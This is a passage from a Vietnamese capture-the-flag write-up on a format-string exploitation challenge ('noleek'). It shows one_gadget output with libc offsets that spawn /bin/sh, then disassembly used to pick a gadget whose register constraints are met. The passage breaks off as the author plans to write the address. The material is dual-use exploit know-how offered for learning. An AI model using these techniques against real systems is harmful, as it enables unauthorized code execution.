 
- one_gadget : 

```cs
ploi@PhuocLoiiiii:~/pwn/FSB/noleek$ one_gadget ./libc.so.6
0xc961a execve("/bin/sh", r12, r13)
constraints:
  [r12] == NULL || r12 == NULL || r12 is a valid argv
  [r13] == NULL || r13 == NULL || r13 is a valid envp

0xc961d execve("/bin/sh", r12, rdx)
constraints:
  [r12] == NULL || r12 == NULL || r12 is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp

0xc9620 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp
```

- đây là mã asm của hàm ```clean_up``` , ta thấy nó sẽ setup 3 thằng đó về NULL vậy ta sẽ chọn one_gadget ```0xc9620```

```cs
.text:0000000000001185                 push    rbp
.text:0000000000001186                 mov     rbp, rsp
.text:0000000000001189                 mov     [rbp+var_4], edi
.text:000000000000118C                 mov     [rbp+var_8], esi
.text:000000000000118F                 mov     [rbp+var_C], edx
.text:0000000000001192                 nop
.text:0000000000001193                 pop     rbp
.text:0000000000001194                 retn
```

- ta sẽ thử ghi địa chỉ này vào 

![here](/assets/images/fsb3.png)
